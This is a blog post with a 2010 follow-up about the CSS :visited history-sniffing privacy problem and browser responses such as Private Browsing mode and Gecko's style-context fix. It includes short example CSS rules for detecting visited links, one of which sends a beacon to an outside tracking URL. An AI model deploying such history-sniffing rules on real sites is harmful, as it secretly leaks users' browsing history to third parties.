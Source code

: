 ```yaml
---
layout: post
date: 2009-04
title: startpanic.com and :visited links privacy issue
---
```


Back in April 2008 I was blogging about <a href="http://sharovatov.wordpress.com/2008/04/06/selectors-api-support-in-ie8b1/">Selectors API support in IE8 Beta 1</a> support and mentioned the security concern about `:visited` links – **potential privacy theft**.

## The problem

This concern was risen long ago in <a href="http://www.w3.org/TR/CSS21/selector.html#link-pseudo-classes">CSS2.1 Spec</a> (and also mentioned then in the following specs - 
<a href="http://www.w3.org/TR/css3-selectors/#link">CSS3 Selectors</a>, <a href="http://www.w3.org/TR/selectors-api/#privacy">Selectors API spec</a>):

> Note. It is possible for style sheet authors to abuse the `:link` and `:visited` pseudo-classes to determine which sites a user has visited without the user's consent.

> UAs may therefore treat all links as unvisited links, or implement other measures to preserve the user's privacy while rendering visited and unvisited links differently.

The <a href="https://bugzilla.mozilla.org/show_bug.cgi?id=57351">original bugzilla issue</a> was reported back in October 2000, <a href="http://crypto.stanford.edu/sameorigin/">Stanford sameorigin whitepapers</a> had this issue described in 2002, then lots of articles followed, and then Ajaxian had an <a href="http://ajaxian.com/archives/spyjax-using-avisited-to-test-your-history">article</a> in 2007 which made this issue really popular.

And now we have <a href="http://startpanic.com">http://startpanic.com</a> with nice implementation of this approach – it has <a href="http://startpanic.com/db/db_en.txt">a txt database</a> of some thousands URLs that are tested for being visited.

You can check <a href="http://startpanic.com/js/sp.js">the code</a> – it’s pretty straight forward – links from the database are appended to the iframe where `:visited` links are displayed and others are hidden, then current style of the current link is checked and if it’s hidden, this link is appended to the big list of visited links.

## Possible solutions
Basically, there’re some ways to resolve this issue:

* try to protect `:visited` links computed style access

* limit support of `:visited`

* don’t fix it, find a way around

### Protect :visited links programmatically
That’s clearly useless. People were suggesting many solutions (which you can get round), like making getComputedStyle return default value for `:visited` links as if they are not visited – but you can make the case more complex, e.g.

	a:link span {display: none;}
	a:visited span { display: block }

and then use getComputedStyle to check the span; and all the proposed solutions were weak in some way. But even if you manage to make scripts unaware about the state of your links, there will always be a server-side attack vector – for those links that you want to check you can just specify a unique background-image pointing to some server-side tracking script, e.g.:

	#alQaedaLnk:visited {
		background: url(http://www.cia.gov/track.pl);
	}

Like <a href="http://ha.ckers.org/weird/CSS-history.cgi">here</a>, for example. So it clearly shows us that there’s no way (or it’s too troublesome) to fix this “issue” programmatically.

### Limiting support for `:visited`

As I understood from the discussion with startpanic.com author, he wants to limit `:visited` support so that only links to pages to the same domain are applied with `:visited` pseudo class.

But this would hurt user experience so much! First example that comes to my head is Google and other search engines – they all colour visited links differently so you can clearly see which pages you’ve already been on and which not. If same-domain policy is applied, all the links in Google search results will be plain blue. This sounds awful to me.

Guys from <a href="http://crypto.stanford.edu/sameorigin/">Stanford security group</a> suggest applying `:visited` only to those links that were visited from the current domain. This approach was used in Firefox add-on called <a href="https://addons.mozilla.org/en/firefox/addon/1502">SafeHistory</a> (it doesn’t work any more). So if you do a search in Google and visit some pages, `:visited` will be applied to these pages only in Google search results. So if you then do a search on MSN Live Search, all the links there will be plain blue and `:visited` won’t be applied to them. To me this solution looks weird as well. And Firefox developers said that it would be a problem to support this; and 

I don’t think other browser vendors will fix this privacy “issue” in that way. Keep on reading, I will explain why.

So from technical prospective the only easy solution would be to completely remove support for `:visited` pseudo class, which nobody will do because user experience will suffer and people will complain.

### Best solution – find a way around
You may think – why not make `:visited` support configurable in the browser UI?  But that’s what all browsers already have! **You can specify that you don’t want to keep history at all, you won’t see visited links anywhere, you will feel that you’re “safe”** :).

### Another solution – Private Browsing mode
Another nice option is to use Private Browsing mode that’s supported by all modern browsers <a href="http://blogs.msdn.com/ie/archive/2008/08/25/ie8-and-privacy.aspx">IE8</a>, <a href="http://www.apple.com/pro/tips/privacy_safari.html">Safari</a>, <a href="http://www.google.com/support/chrome/bin/answer.py?hl=en&amp;answer=95464">Google Chrome</a> (and then <a href="https://wiki.mozilla.org/PrivateBrowsing">FF3.1</a> joined). **When you visit a site that you don’t want to appear in the history – use Private Browsing mode and you’re safe.**

**Note**: currently Google Chrome has a bug – it applies `:visited` pseudo class to
links in Incognito Mode. However, <a href="http://codereview.chromium.org/42114">the bug is fixed</a> and the bugfix will be included in one of new updates.

## “Private Browsing” browser feature is the only true solution to this issue.

Here’s a <u><a href="http://sharovatov.ru/testcases/visitedIssueTest.html">testcase</a></u>. I visited both <a href="http://ya.ru">http://ya.ru</a> and <a href="http://www.google.com">http://www.google.com</a> links in IE8 InPrivate mode, then went to the <a href="http://sharovatov.ru/testcases/visitedIssueTest.html">testcase page</a> and it didn’t tell anything as if I hadn’t visited these URLs.

<img src="http://sharovatov.ru/screenshots/visitedIssueIE8.png">

When I followed the same process in Google Chrome “Incognito mode”, it showed that I visited both ya.ru and Google.com. <a href="http://codereview.chromium.org/42114">This bug is fixed</a> and will be updated in newer versions of Google Chrome.

<img src="http://sharovatov.ru/screenshots/visitedIssueGG.png">

And this issue is also fixed in FF3.1b3:

<img src="http://sharovatov.ru/screenshots/visitedIssueFF.png">

In comments Avdeev said that Safari in its Private Browsing mode (they call it Porn mode) didn’t show if the link was visited or not. Great stuff!

**Update:** It seems that Opera 10 will have Private browsing mode support as well – they are already choosing the name for it – and the most voted one is “Phantom mode” :)

**Note**: while I understand the whole concern about privacy, you shouldn’t forget that all search engines, adds providers and many many others gather statistics about your visits. When you’re in London (and other major cities), you’re being watched on CCTV constantly, does it bother you? Does this new world leave any space for privacy?

**Links**:

* the best use of this privacy issue is <a href="http://www.azarask.in/blog/post/socialhistoryjs/">this</a>.

* <a href="https://bugzilla.mozilla.org/show_bug.cgi?id=147777">This bugzilla entry</a> contains main discussion about the issue.

# :visited links privacy issue revisited *2010-03*
This is a follow up. I thought the best solution for this issue would be educating users about the problem and promoting Private mode as a solution. I think I was wrong. See below why.

It’s worthy to note that all browsers now support Private mode – IE8, Fx, Opera, Safari, Chrome. Opera 10.50 can even open a “private” tab in the existing window. Flash player did a good catch-up – with its version 10.1 release flash cookies are not stored when a browser runs in the Private mode (so updating to latest flash player is highly recommended if you use Private mode).

But browser vendors clearly failed to promote this feature. I asked few general internet users, nobody even knew about Private browsing mode in their browser. (However, most of my interviewees knew about HTTPS, so security concerns weren’t completely new to them). If my small poll doesn’t seem a representative sample for you, do your own and share results!

So people are obviously not aware that their history data can be “obtained” by anyone.

David Baron thought this was unacceptable and <a href="https://bugzilla.mozilla.org/show_bug.cgi?id=147777#c172">started working on a patch for Gecko</a> which targets most of the “attack vectors” (see his <a href="http://dbaron.org/mozilla/visited-privacy">blogpost</a>).

Basically, Gecko will have two style contexts for a visited link – one with rules applied for a `:visited` link, and one with rules not applied – as if the link wasn’t visited. GetComputedStyle will take the first style context, and therefore getComputedStyle check for a CSS value of the rule set for `:visited` pseudoclass selector will fail – it will think the link has default or specified in `:link` selector rules applied. But when browser will do actual styling, it will use the second styling context, but will apply only a set of properties which are considered safe (`color`, `background-color`, `border-*-color`, and `outline-color`). 

This approach looks nice and will give users some protection, but as it was pointed by <a href="http://lists.w3.org/Archives/Public/www-svg/2008Sep/0112.html">Robert O’Callahan here</a>, it will fail if it becomes possible to read the actual color of the link after actual styling is done. So this approach has to be applied very carefully – for example, if Canvas <a href="http://mxr.mozilla.org/mozilla/source/content/canvas/src/nsCanvasRenderingContext2D.cpp#2352">drawWindow object was available not only to Fx extensions</a>, it would mean that attacker would still be able to get resulting color from the second styling context. I really hope this never happens.

So I was wrong because I thought that no browser vendor would go and fix this technically, while it seems quite doable and thanks to David Baron, it will appear in Gecko. With careful integration, this approach will protect from most of the possible attacks and will still provide a way for authors to make visited and not visited links distinguishable in their designs.

We’ll now see what other browser vendors will do, and this will become especially interesting if Firefox does a good marketing campaign from this feature.